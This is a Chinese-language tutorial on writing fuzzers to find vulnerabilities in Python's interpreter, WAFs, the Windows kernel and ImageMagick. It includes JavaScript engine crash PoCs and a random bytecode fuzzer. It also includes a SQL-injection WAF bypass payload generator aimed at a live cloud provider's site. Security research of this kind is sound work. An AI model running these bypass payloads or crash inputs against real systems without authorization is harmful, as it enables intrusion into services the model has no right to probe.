




## 必备工具

  Python ,Source Insight


## Fuzzing 与代码覆盖率

  前面一章说到在Github 上快速阅读代码,这样有助于我们去了解关于我们要挖掘漏洞的目标的一些理解,对于程序有了一些理解之后,接下来就可以尝试写些Fuzzing 来跑跑漏洞了.
  
  Fuzzing 是模糊测试的意思,我们可以按照给定的格式来生成数据或者随机生成,观察程序有没有处理异常或者程序崩溃.读者要注意的一点是:**二进制Fuzzing 的思路和WEB Fuzzing 的思路是完全不同的**,后面会通过许多的例子来告诉大家二进制和WEB Fuzzing 到底差异在哪里.**Fuzzing 和源码挖洞是相互辅助的!不要把能不能挖到漏洞的锅都丢给Fuzzing ,Fuzzing 不出来就是没有漏洞;也不要把全部的精力都花在阅读源码上,有很多时候会迷失在代码里,忘记上下文到底在做些什么,越看越迷茫.这是成本与收益的博弈,对于代码量较大的程序来说,偏向Fuzzing 的投入产出比较高;对于代码量较小的程序来说,偏向阅读源码的投入产出比较高**.
  
  代码覆盖率是说,这次自动化测试触发了的代码占整体代码的比率是多少.要想对一个程序的所有代码都要测试到,这样的代码覆盖率就是100% ,这是不可能的,因为会有很多的功能和代码是需要联合起来触发的,有的代码触发条件逻辑非常复杂,这些都是Fuzzing 的短板,Fuzzing 在对某一个攻击点测试上效果是很好的,一个程序会有很多的攻击点,所以要针对各个不同的攻击点都要写不同的Fuzzer ,提高Fuzzing 代码覆盖率.


## Fuzzing 攻击点

  以Python 为例子,Python 的攻击点有三处:库,内部对象,运行环境


### Python 库

  关于Python 的库代码,我们可以从Python 安装路径下的`Lib` 目录中找到



  每个库都能够去找个针对性的Fuzzer 跑一跑,不过有些Python 库是做系统操作的,**重点挑一些外部数据可以流进来,然后又可以进行处理的**,比如:json,urllib,requests 这些库.本地库找到漏洞有时候利用会比较鸡肋,除非你的渗透对象是云服务(比如SAE 这种只提供一个执行容器的云,那么我们就需要找到一个可以绕过Python 解析器能够直接执行二进制代码的方式来绕过沙盒,如果读者不是很理解这个操作,同样的原理请参考pwn2own 从浏览器到系统system/root 提权),否则能够用利用的地方比较少.这个是我在挖requests 的时候挖到的一个洞,可以在Cookie `max-age` 中设置字符串值触发Cookielib 处理异常,丢弃掉这个Set-cookie 字段,让爬虫无法获取Cookie .传送门:https://github.com/lcatro/Python_CookieLib_0day
  
  上面提到的库都是Python 的代码相互调用,但是有一些库是能触发二进制代码的,比如:http://www.freebuf.com/articles/network/27817.html
  
  
### Python 内部对象

  说到Python 内部对象,对没有了解过解析器是如何做到远程代码执行的同学推荐几个链接:
  
```

    https://github.com/lcatro/Hacker_Document/blob/master/Flash/Inside%20Flash%20-%20Flash%20Exploit%20Detection%20Uncovered%20.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Flash/Flash%20%E8%99%9A%E6%8B%9F%E6%9C%BA%E5%86%85%E5%AD%98%E7%AE%A1%E7%90%86%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Browser/IE_Sandbox_Escapes_Presentation.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Browser/Windows%2010%20x64%20edge%200day%20and%20exploit.pdf
    https://github.com/Microsoft/ChakraCore/commit/db504eba489528434dfb56257b0f202209741fe9
    https://github.com/Microsoft/ChakraCore/commit/0440807190fa814b8c903320385ce35896b823b3
  
```

  对内部对象做一些的操作,最后可以达到RCE (远程代码执行)的结果.我们先看看PoC 是怎么样的(以JavaScript 为例子,Python 版没有找到,原理都差不多的),Link :https://github.com/tunz/js-vuln-db

```

    PoC 1 :

        function opt() {
            let obj = '2.3023e-320';
            for (let i = 0; i < 1; i++) {
                obj.x = 1;
                obj = +obj;
                obj.x = 1;
            }
        }

        function main() {
            for (let i = 0; i < 100; i++) {
                opt();
            }
        }

        main();


    PoC 2 :
    
        function opt() {
            let arr = [];
            return arr['x'];
        }

        function main() {
            let arr = [1.1, 2.2, 3.3];
            for (let i = 0; i < 0x10000; i++) {
                opt();
            }

            Array.prototype.__defineGetter__('x', Object.prototype.valueOf);

            print(opt());
        }

        main();
        
        
    PoC 3 :
    
        var f = function()
        {
          var o = { a: {}, b: { ba: { baa: 0, bab: [] }, bb: {}, bc: { bca: {bcaa: 0, bcab: 0, bcac: this} } } };
          o.b.bc.bca.bcab = 0;
          o.b.bb.bba = Array.prototype.slice.apply(o.b.ba.bab);
        };
        while(true) f(f);

```

  细心的你应该能从这些PoC 里面发现了很多Fuzzing 的痕迹,对于这种涉及到解析器运行时产生的问题,是需要构造代码来Fuzzing 的.要展开来讲还需要用很多篇幅,后面还会介绍到一个东西叫AST (抽象语法树),读者们可以结合AST 和js-vuln-db 的PoC 这两个东西一起细细琢磨,很有意思的.


### Python 运行环境

  Python 运行环境有两部分:编译和执行.Python 的编译请参考`compile()` 函数,我们关注Python 运行环境的执行部分,对应的源码在`Python/Ceval.c``PyEval_EvalFrameEx()`.Python 的OpCode 的格式如下:

```

    | OpCode |                      没有操作数的OpCode
    | OpCode | OpNum1 |             一个操作数的OpCode
    | OpCode | OpNum1 | OpNum2 |    两个操作数的OpCode

```

  关于操作码的具体信息在`Include/Opcode.h` 里.那么我们生成的Python 字节码要怎么样才能传递到`PyEval_EvalFrameEx()` 里执行呢?
  
  
## Fuzzing 的入口点
  
  找到攻击点之后,还需要给Fuzzing 构建一个入口点,让我们的Fuzzing 生成的数据流能够进入到这些地方去.以AFL 为例子(本篇文章没有介绍AFL 的使用,读者们可以从这里了解更多关于AFL 的使用:https://github.com/lcatro/Fuzzing-ImageMagick ;关于libFuzzer 推荐阅读:https://github.com/Dor1s/libfuzzer-workshop (入门教程);https://github.com/google/fuzzer-test-suite (真实的测试用例)),我们给AFL Fuzzing 的入口点就是命令行,通过使用不同的命令参数组合来触发更多的代码覆盖率,举个例子
  
```bash

    afl-fuzz -i samples -o output ./magick convert @@ /dev/null
    afl-fuzz -i samples -o output ./magick composite @@ /dev/null
    afl-fuzz -i samples -o output ./magick compare @@ /dev/null
    afl-fuzz -i samples -o output ./magick montage @@ /dev/null

```
  
  AFL 就会把变异的样本传递进去测试,有些库是完全没有像ImageMagick 这种入口的,比如:libGif ,libxml 这些,就得要手工构造入口点,再提供给AFL 来Fuzzing
  
  对于Python 来说,我们还有pyc 文件,pyc 文件里面保存的是Python OpCode ,使用Python 执行pyc 之后,最后会将OpCode 传递到`PyEval_EvalFrameEx()` 执行,关于pyc 的文件结构读者们可以自行搜素,下面放一段打包字节码成pyc 结构的代码
  
```python

    import marshal

    class code_object(object):

        def __init__(self) :
            self.co_argcount=0
            self.co_nlocals=0
            self.co_stacksize=1
            self.co_flags=0x40
            self.co_code=b''
            self.co_consts=()
            self.co_names=()
            self.co_varnames=()
            self.co_filename=''
            self.co_name='<module>'
            self.co_firstlineno=1
            self.co_lnotab=b'\x00\x01'
            self.co_freevars=()
            self.co_cellvars=()

    def serialize_code_object(code_object) :
        code_buffer=b'\x63'
        code_buffer+=marshal.dumps(code_object.co_argcount)[1:]
        code_buffer+=marshal.dumps(code_object.co_nlocals)[1:]
        code_buffer+=marshal.dumps(code_object.co_stacksize)[1:]
        code_buffer+=marshal.dumps(code_object.co_flags)[1:]
        code_buffer+=marshal.dumps(code_object.co_code)
        code_buffer+=marshal.dumps(code_object.co_consts)
        code_buffer+=marshal.dumps(code_object.co_names)
        code_buffer+=marshal.dumps(code_object.co_varnames)
        code_buffer+=marshal.dumps(code_object.co_freevars)
        code_buffer+=marshal.dumps(code_object.co_cellvars)
        code_buffer+=marshal.dumps(code_object.co_filename)
        code_buffer+=marshal.dumps(code_object.co_name)
        code_buffer+=struct.pack('L',code_object.co_firstlineno)
        code_buffer+=marshal.dumps(code_object.co_lnotab)

        return code_buffer
        
    def save_to_pyc(file_path,code_object) :
        file=open(file_path, 'wb')

        if file :
            file.write(imp.get_magic())
            file.write(struct.pack('L',time.time()))
            file.write(serialize_code_object(code_object))
            file.close()
            
    def make_code_object(opcode_data) :
        compile_code_object = python_opcode_build.code_object()

        compile_code_object.co_argcount = 0
        compile_code_object.co_code = packet_code_object_in_try_block(opcode_data)
        compile_code_object.co_consts = tuple(make_random_string_list(3,8),)
        compile_code_object.co_names = tuple(make_random_string_list(3,8))
        compile_code_object.co_varnames = tuple(make_random_string_list(3,8))

        return compile_code_object
            

```


## Fuzzing 数据生成

  找到了一个攻击点并且构造好Fuzzing 入口点之后,这个时候就需要传递一些数据进去测试了,一般有两种方式进行Fuzzing
  
  
### 随机生成数据

  随机生成数据是真的随机,我们来看看Fuzzer 的代码

```python


    import imp
    import marshal
    import os
    import random
    import struct
    import time


    class code_object_class(object):

        def __init__(self) :
            self.co_argcount=0
            self.co_nlocals=0
            self.co_stacksize=1
            self.co_flags=0x40
            self.co_code=b''
            self.co_consts=()
            self.co_names=()
            self.co_varnames=()
            self.co_filename=''
            self.co_name='<module>'
            self.co_firstlineno=1
            self.co_lnotab=b'\x00\x01'
            self.co_freevars=()
            self.co_cellvars=()

    def serialize_code_object(code_object) :
        code_buffer=b'\x63'
        code_buffer+=marshal.dumps(code_object.co_argcount)[1:]
        code_buffer+=marshal.dumps(code_object.co_nlocals)[1:]
        code_buffer+=marshal.dumps(code_object.co_stacksize)[1:]
        code_buffer+=marshal.dumps(code_object.co_flags)[1:]
        code_buffer+=marshal.dumps(code_object.co_code)
        code_buffer+=marshal.dumps(code_object.co_consts)
        code_buffer+=marshal.dumps(code_object.co_names)
        code_buffer+=marshal.dumps(code_object.co_varnames)
        code_buffer+=marshal.dumps(code_object.co_freevars)
        code_buffer+=marshal.dumps(code_object.co_cellvars)
        code_buffer+=marshal.dumps(code_object.co_filename)
        code_buffer+=marshal.dumps(code_object.co_name)
        code_buffer+=struct.pack('L',code_object.co_firstlineno)
        code_buffer+=marshal.dumps(code_object.co_lnotab)

        return code_buffer

    def save_to_pyc(file_path,code_object) :
        file=open(file_path, 'wb')

        if file :
            file.write(imp.get_magic())
            file.write(struct.pack('L',time.time()))
            file.write(serialize_code_object(code_object))
            file.close()

    def make_random_string(length) :
        data = ''

        for index in range(length) :
            data += chr(random.randint(0,255))

        return data

    def make_random_string_list(list_count,string_length) :
        return_list = []

        for list_index in range(list_count) :
            for string_index in range(list_count) :
                return_list.append(make_random_string(string_length))

        return return_list

    def packet_code_object_in_try_block(code) :
        code_length_low = (len(code) % 0x100) & 0xFF
        code_length_height = (len(code) >> 8) & 0xFF

        try_block = b'\x79'
        try_block += chr(code_length_height)
        try_block += chr(code_length_low)
        try_block += code
        try_block += b'\x6e\x07\x00\x01\x01\x01\x6e\x01\x00\x58\x64\x01\x00\x53'

        return try_block

    def make_code_object(opcode_data) :
        compile_code_object = code_object_class()

        compile_code_object.co_argcount = 0
        compile_code_object.co_code = packet_code_object_in_try_block(opcode_data)
        compile_code_object.co_consts = tuple(make_random_string_list(3,8),)
        compile_code_object.co_names = tuple(make_random_string_list(3,8))
        compile_code_object.co_varnames = tuple(make_random_string_list(3,8))

        return compile_code_object


    if __name__ == '__main__' :
        while True :
            code_object = make_code_object(make_random_string(64))

            save_to_pyc('python_fuzzing.tmp.pyc',code_object)

            os.system('python python_fuzzing.tmp.pyc')

```

  运行效果


### 按结构生成数据

  上面的Fuzzing 已经出现了崩溃的结果,现在我们可以开开心心地拿样本来分析漏洞崩溃原因了,不过这里是在讨论如何Fuzzing ,所以就不多做漏洞分析了,细心的你应该观察到了这一点


  这些OpCode 无法被运行环境所识别,所以提示了异常.重复来跑这种没有意义的Fuzzing 其实是很低效的,我们回去阅读`PyEval_EvalFrameEx()` 找到解决问题的答案.

  在`Python/Ceval.c:1199` 行代码里,这里是OpCode 的解析执行部分,我们看这个switch 的default 部分(`Python/Ceval.c:3134`)

```c

    default:
        fprintf(stderr,
            "XXX lineno: %d, opcode: %d\n",
            PyFrame_GetLineNumber(f),
            opcode);
        PyErr_SetString(PyExc_SystemError, "unknown opcode");
        why = WHY_EXCEPTION;
        break;

```

  原来是OpCode 没有被case 语句判断成功,那么再去看看`include\Opcode.h` 的OpCode 都有哪些取值

```c

    #ifndef Py_OPCODE_H
    #define Py_OPCODE_H
    #ifdef __cplusplus
    extern "C" {
    #endif


    /* Instruction opcodes for compiled code */

    #define STOP_CODE	0
    #define POP_TOP		1
    #define ROT_TWO		2
    #define ROT_THREE	3
    
    // .....

    #define SETUP_WITH 143

    /* Support for opargs more than 16 bits long */
    #define EXTENDED_ARG  145

    #define SET_ADD         146
    #define MAP_ADD         147


    enum cmp_op {PyCmp_LT=Py_LT, PyCmp_LE=Py_LE, PyCmp_EQ=Py_EQ, PyCmp_NE=Py_NE, PyCmp_GT=Py_GT, PyCmp_GE=Py_GE,
             PyCmp_IN, PyCmp_NOT_IN, PyCmp_IS, PyCmp_IS_NOT, PyCmp_EXC_MATCH, PyCmp_BAD};

    #define HAS_ARG(op) ((op) >= HAVE_ARGUMENT)

    #ifdef __cplusplus
    }
    #endif
    #endif /* !Py_OPCODE_H */

```

  这些OpCode 都是连续的,从0 到147 这个范围里取值,那么就可以确定`OpCode = range(0,104)` ,接下来再看第94 行和第166 行代码

```c

    #define HAVE_ARGUMENT	90	/* Opcodes from here have an argument: */  //  OpCode.h:90

    #define STORE_NAME	90	/* Index in name list */
    #define DELETE_NAME	91	/* "" */
    #define UNPACK_SEQUENCE	92	/* Number of sequence items */
    #define FOR_ITER	93
    #define LIST_APPEND	94

    // ...

    #define HAS_ARG(op) ((op) >= HAVE_ARGUMENT)  //  OpCode.h:166

```

  现在我们知道OpCode 的数值大于90 就是需要带参数的OpCode ,现在就需要找到OpNumber 的格式到底是怎么样的,来看看`Ceval.c:1167` 行代码

```c

    opcode = NEXTOP();
    oparg = 0;   /* allows oparg to be stored in a register because
        it doesn't have to be remembered across a full loop */
    if (HAS_ARG(opcode))
        oparg = NEXTARG();
        
    #define NEXTOP()        (*next_instr++)
    #define NEXTARG()       (next_instr += 2, (next_instr[-1]<<8) + next_instr[-2])

```

  现在可以知道,OpCode 格式如下:

```

    不带参数:  OpCode (1 Byte)
    带参数:    OpCode (1 Byte) | OpNumber (2 Byte)

```

  根据上面得到的信息,可以写一个按照结构生成数据的模块.
  
```python

    def opcode_no_opnumber() :  #  针对无操作数的指令进行数据生成
        opcode = random.randint(0,89)

        return chr(opcode)

    def opcode_has_opnumber() :  #  针对有操作数的指令进行数据生成
        opcode = random.randint(90,104)
        opnumber1 = random.randrange(0xFF)
        opnumber2 = random.randrange(0xFF)

        return chr(opcode) + chr(opnumber1) + chr(opnumber2)

    def make_opcode_stream(opcode_length = 6) :
        opcode_stream = ''

        for index in range(opcode_length) :
            if random.randint(0,1) :  #  50% 的选择概率
                opcode_stream += opcode_no_opnumber()
            else :
                opcode_stream += opcode_has_opnumber()

        return opcode_stream

```
  
  写好了这两个模块之后,还需要修改这些代码
  
```python

    def make_code_object(opcode_data) :
        compile_code_object = code_object_class()

        compile_code_object.co_argcount = 0
        compile_code_object.co_code = opcode_data
        compile_code_object.co_consts = tuple(make_random_string_list(3,8),)
        compile_code_object.co_names = tuple(make_random_string_list(3,8))
        compile_code_object.co_varnames = tuple(make_random_string_list(3,8))

        return compile_code_object


    if __name__ == '__main__' :
        while True :
            code_object = make_code_object(make_opcode_stream())

            save_to_pyc('python_fuzzing.tmp.pyc',code_object)

            os.system('python python_fuzzing.tmp.pyc')

```
  
  然后就可以继续跑Fuzzing 了,效果如下
  




  往下继续运行,我们还是可以看到Python 运行环境抛出了OpCode 识别失败,我们再回去读读`Opcode.h` 的代码

```c

    #define SLICE		30
    /* Also uses 31-33 */
    #define SLICE_1		31
    #define SLICE_2		32
    #define SLICE_3		33

    #define STORE_SLICE	40
    /* Also uses 41-43 */
    #define STORE_SLICE_1	41
    #define STORE_SLICE_2	42
    #define STORE_SLICE_3	43

    #define DELETE_SLICE	50
    /* Also uses 51-53 */
    #define DELETE_SLICE_1	51
    #define DELETE_SLICE_2	52
    #define DELETE_SLICE_3	53

```

  原来OpCode 的取值并不是连续的,这就解开了困扰我们的问题,读者们可以拿上面的代码去继续完善

## 什么时候选择随机生成数据,什么时候选择按结构生成数据

  **如果输入是有限制的,那就按结构生成数据,如果输入是无限制的,那就随机生成数据**
  
  输入限制是什么意思呢?不妨来看几个例子
  

### Fuzzing WAF

  对WAF Fuzzing .攻击点有:SQL Payload 拦截,XSS Payload 拦截,WebShell 拦截,文件目录拦截,系统命令拦截等部分.现在拿出SQL Payload Fuzzing 来说,SQL Payload 是有限的,比如:' ," ,select ,union ,where 等关键字,还有SQL Bypass Payload ,可以参考SQLMAP 的Bypass 套路:https://github.com/sqlmapproject/sqlmap/tree/master/tamper
  
  对于输入是有限的Fuzzing ,**一定要尽可能搜集多的关键字,提高Fuzzing 代码覆盖率**

```python

    sql_tiny_dict = ['select','from','*','where','order by','desc','asc','insert','top','limit',             #  SQL 基础语句
                     'update','delete','set','as','in','create','table','db'
                     '\'','"','%','_',                                                                   #  特殊符号
                     '(',')','=','<','>','<>','<=','=>','between','like','+','-','and','or','not','|',     #  运算符
                     'NULL'
                    ]

    sql_function = [  #  函数
                    'avg','count','first','last','max','min','sum','ucase','lcase','mid','len','round','now','format',
                    'ascii','char','nchar','lower','upper','str','ltrim','rtrim','left','right','substring','charindex','patindex',
                    'quotename','replicate','reverse','replace','space','stuff','cast','convert','day','month','year','dateadd',
                    'datediff','datename','datepart','getdate','suser_name','user_name','user','show_role','db_name','object_name',
                    'col_name','col_length','valid_name','charindex','rank','column_name'
                   ]

    bypass_string = [  #  Bypass 关键字
                     '\'','"',
                     '/*','*','*/','/**/',' ',b'\0','%00','()','//','\\','--','#','--+','-- -',';','#',
                     '%27','%u0027','%u02b9','%u02bc','%u02c8','%u2032','%uff07','%c0%27','%c0%a7','%e0%80%a7',  # '
                     '%20','%u0020','%uff00','%c0%20','%c0%a0','%e0%80%a0',                                      # space
                     '%28','%u0028','%uff08','%c0%28','%c0%a8','%e0%80%a8',                                      # (
                     '%29','%u0029','%uff09','%c0%29','%c0%a9','%e0%80%a9',                                      # )
                     '\r','%0D','\n','%0A','%0B','\r\n'
                    ]
                    
                    
    def make_payload(using_payload_count,using_bypass_count) :
        output_payload = ''

        if not random.randint(0,9) :  #  10%
            output_payload += random.choice(['\'','"','%27','%28'])

            if not random.randint(0,1) :  #  5%
                output_payload += make_space()

        if not random.randint(0,3) :  #  25%
            output_payload += random.choice(bypass_string)

            if not random.randint(0,1) :  #  12.5%
                output_payload += make_space()

        for using_payload_count_index in range(using_payload_count) :
            if random.randint(0,1) :
                sql_tiny_element = random.choice(sql_tiny_dict)  #fuzzing_entry.random_encode_string( )
                bypass_payload = ''

                for using_bypass_count_index in range(using_bypass_count) :
                    bypass_payload += random.choice(bypass_string)

                sql_tiny_element += bypass_payload + make_space()
            else :
                sql_tiny_element = random.choice(sql_function)

                if random.randint(0,1) : #  25%
                    for using_bypass_count_index in range(using_bypass_count) :
                        sql_tiny_element += random.choice(bypass_string)

                sql_tiny_element += '(' + make_argument() + ')'

            output_payload += sql_tiny_element + make_space()

        return output_payload
        
    def fuzzing() :
        sql_url = 'https://cloud.tencent.com/?test='

        while True :
            sql_payload = make_payload(random.randint(1,6),random.randint(0,3))

            print 'SQL payload :',

            fuzzing_output.green_output(sql_payload)

            print 'is pass:' , 

            responed = requests.get(sql_url + sql_payload)

            if 200 == responed.status_code :
                fuzzing_output.red_output(str(responed.status_code))# + '  ' + responed.text)
            else :
                fuzzing_output.bule_output(str(responed.status_code))

            time.sleep(0.5)

```
  
  运行结果如下,利用这个简单的Fuzzer 还找到了个腾讯云SQL Bypass 的洞.
  


### Fuzzing Windows 内核
  
  Windows 内核的攻击点有很多,在这里我们只讨论内核函数syscall 的Fuzzing .参考链接:https://github.com/mwrlabs/KernelFuzzer ,https://github.com/tinysec/windows-syscall-table
  
  syscall 是有固定格式的:内核函数SSDT 索引号,参数1,参数2 等等.我们来看看KernelFuzzer 里面是怎么样做Fuzzing 输入点的,代码在`bughunt_syscall.asm` 和`bughunt_syscall_x64.asm` 中
  
```asm

    mov ecx, [ebp + 18h] ; main (argv[5]) = dw0x04
    push ecx
    mov ecx, [ebp + 14h] ; main (argv[4]) = dw0x03
    push ecx
    mov ecx, [ebp + 10h] ; main (argv[3]) = dw0x02
    push ecx
    mov ecx, [ebp + 0Ch] ; main (argv[2]) = dw0x01
    push ecx             ; push argument in stack ..

    mov eax, [ebp + 08h] ; main (argv[1]) = syscall_uid

    mov edx, 7FFE0300h
    call dword ptr [edx] ;  call syscall ..

```

  我们再来看看SSDT 内核函数的信息

| name | id32 | id64 | argc32 | argc64 | argcFrom
| ------| ------ | ------ | ------ | ------ | ------
| NtAcceptConnectPort | 2 | 2 | 6 | 6 | wow64
| NtAccessCheck | 0 | 0 | 8 | 8 | wow64
| NtAccessCheckAndAuditAlarm | 439 | 41 | 11 | 11 | wow64
| NtAccessCheckByType | 438 | 99 | 11 | 11 | wow64
| NtAccessCheckByTypeAndAuditAlarm | 437 | 89 | 16 | 16 | wow64
| NtAccessCheckByTypeResultList | 436 | 100 | 11 | 11 | wow64
| NtAccessCheckByTypeResultListAndAuditAlarm | 435 | 101 | 16 | 16 | wow64
| NtAccessCheckByTypeResultListAndAuditAlarmByHandle | 434 | 102 | 17 | 17 | wow64
  
  id32 ,id64 指的是32 和64 位平台下的内核函数序号.argc32 和argc64 是指32 和64 位平台下的内核函数参数个数.所以我们可以知道Fuzzing 数据的构造方式了
  
```

    syscall 2 a,b,c,d,e,f
    syscall 0 a,b,c,d,e,f,g,h
    syscall 439 a,b,c,d,e,f,g,h,i,j,k
    ...

```
  
  再精细一点来设计这个Fuzzing ,就还需要考虑到句柄,内核缓冲区等各种信息,更多细节在此就不多细说了,感兴趣的读者可以阅读:https://github.com/mwrlabs/KernelFuzzer/blob/master/bughunt_thread.h
  
  
### Fuzzing ImageMagick

  如果读者已经读过了我之前写过的那篇Fuzzing Imagemagick 的文章,可能你会对这段代码有疑惑,Link:https://github.com/lcatro/Fuzzing-ImageMagick/blob/master/%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Fuzzing%E6%8C%96%E6%8E%98ImageMagick%E7%9A%84%E6%BC%8F%E6%B4%9E.md#5-如何使用libfuzzer-fuzzing-imagemagick ,摘录部分代码

```c

    static const struct {
    char
      *name;

    unsigned char
      *magic;

    unsigned int
      length,
      offset;
    } StaticMagic[] = {
        #define MAGIC(name,offset,magic) {name,(unsigned char *)magic,sizeof(magic)-1,offset}

        MAGIC("WEBP", 8, "WEBP"),
        MAGIC("AVI", 0, "RIFF"),
        MAGIC("8BIMWTEXT", 0, "8\000B\000I\000M\000#"),
        MAGIC("8BIMTEXT", 0, "8BIM#"),
        MAGIC("8BIM", 0, "8BIM"),
        MAGIC("BMP", 0, "BA"),
        MAGIC("BMP", 0, "BM"),
        MAGIC("BMP", 0, "CI"),
        MAGIC("BMP", 0, "CP"),
        MAGIC("BMP", 0, "IC"),
        MAGIC("BMP", 0, "PI"),
        MAGIC("CALS", 21, "version: MIL-STD-1840"),
        MAGIC("CALS", 0, "srcdocid:"),
        MAGIC("CALS", 9, "srcdocid:"),
        MAGIC("CALS", 8, "rorient:"),
        MAGIC("CGM", 0, "BEGMF"),

        //...
    };
    
    extern "C" int LLVMFuzzerTestOneInput(const unsigned char* data,unsigned int size) {
        int random_image_flag_index = random(data,size);
        unsigned int random_image_flag_offset = StaticMagic[random_image_flag_index].offset;
        unsigned int random_image_flag_length = StaticMagic[random_image_flag_index].length;
        unsigned int image_buffer_length = random_image_flag_offset + random_image_flag_length + size;
        unsigned char* image_buffer = (unsigned char*)malloc(image_buffer_length);

        memset(image_buffer,0,image_buffer_length);
        memcpy(image_buffer,StaticMagic[random_image_flag_index].name,StaticMagic[random_image_flag_index].length);

        FILE* file = fopen(GENARATE_FILE_NAME,"w");

        if (NULL != file) {
            fwrite(image_buffer,1,image_buffer_length,file);
            fclose(file);

            printf("buffer=%s(0x%X), size=%d,input format=%s\n",image_buffer,image_buffer,image_buffer_length,StaticMagic[random_image_flag_index].name);

            ExceptionInfo exception;
            ImageInfo* read_image_info;
            ImageInfo* write_image_info;
            Image*     image;

            GetExceptionInfo(&exception);

            read_image_info = CloneImageInfo((ImageInfo*)NULL);
            write_image_info = CloneImageInfo((ImageInfo*)NULL);

            strlcpy(read_image_info->filename,GENARATE_FILE_NAME,MaxTextExtent);
            strlcpy(write_image_info->filename,"/dev/null",MaxTextExtent);
            SetImageInfo(read_image_info,SETMAGICK_READ,&exception);
            SetImageInfo(write_image_info,SETMAGICK_WRITE,&exception);

            image = ReadImage(read_image_info,&exception);

            if (NULL != image)
                  WriteImage(write_image_info,image);

            DestroyImageInfo(read_image_info);
            DestroyImageInfo(write_image_info);
            DestroyExceptionInfo(&exception);
        }

        free(image_buffer);

        return 0;
    }

```

  这段代码的意思是,随机从`StaticMagic` 中选择一个图像头部特征,然后和libFuzzer 生成的数据拼接到一起.格式如下
  
```

    图像格式特征码 | libFuzzer 生成的数据

```

  为什么要这么做呢?我们需要来阅读一下ImageMagick 的代码.图像格式特征码可以到`MagickCore/magic.c:90` 行找到声明.

```c

    static const MagicMapInfo
      MagicMap[] =
      {
        { "8BIMWTEXT", 0, MagicPattern("8\000B\000I\000M\000#") },
        { "8BIMTEXT", 0, MagicPattern("8BIM#") },
        { "8BIM", 0, MagicPattern("8BIM") },
        { "BMP", 0, MagicPattern("BA") },
        { "BMP", 0, MagicPattern("BM") },
        { "BMP", 0, MagicPattern("CI") },
        
        //...
        
        { "XEF", 0, MagicPattern("FOVb") },
        { "XPM", 1, MagicPattern("* XPM *") }
     };

```

  ImageMagick 识别图片格式在`MagickCore/magic.c:368` 行找到函数.
  
```c

    MagickExport const MagicInfo *GetMagicInfo(const unsigned char *magic,
      const size_t length,ExceptionInfo *exception)
    {
      register const MagicInfo
        *p;

      assert(exception != (ExceptionInfo *) NULL);
      if (IsMagicCacheInstantiated(exception) == MagickFalse)
        return((const MagicInfo *) NULL);
      /*
        Search for magic tag.
      */
      LockSemaphoreInfo(magic_semaphore);
      ResetLinkedListIterator(magic_cache);
      p=(const MagicInfo *) GetNextValueInLinkedList(magic_cache);
      if (magic == (const unsigned char *) NULL)
        {
          UnlockSemaphoreInfo(magic_semaphore);
          return(p);
        }
      while (p != (const MagicInfo *) NULL)
      {
        assert(p->offset >= 0);
        if (((size_t) (p->offset+p->length) <= length) &&
            (memcmp(magic+p->offset,p->magic,p->length) == 0))  //  注意这里,判断图片特征码
          break;
        p=(const MagicInfo *) GetNextValueInLinkedList(magic_cache);
      }
      if (p != (const MagicInfo *) NULL)
        (void) InsertValueInLinkedList(magic_cache,0,
          RemoveElementByValueFromLinkedList(magic_cache,p));
      UnlockSemaphoreInfo(magic_semaphore);
      return(p);
    }

```

  我们来读一下ImageMagick 的读取图片部分的代码,位置在`MagickCore/constitute.c:410` 
  
```c

    magick_info=GetMagickInfo(read_info->magick,sans_exception);
    sans_exception=DestroyExceptionInfo(sans_exception);
    if (magick_info != (const MagickInfo *) NULL) {  //  读取图像信息
    
      // ...
    
      if ((magick_info != (const MagickInfo *) NULL) &&
          (GetImageDecoder(magick_info) != (DecodeImageHandler *) NULL))
        {
          if (GetMagickDecoderThreadSupport(magick_info) == MagickFalse)
            LockSemaphoreInfo(magick_info->semaphore);
          image=GetImageDecoder(magick_info)(read_info,exception);
          
        // ...

```

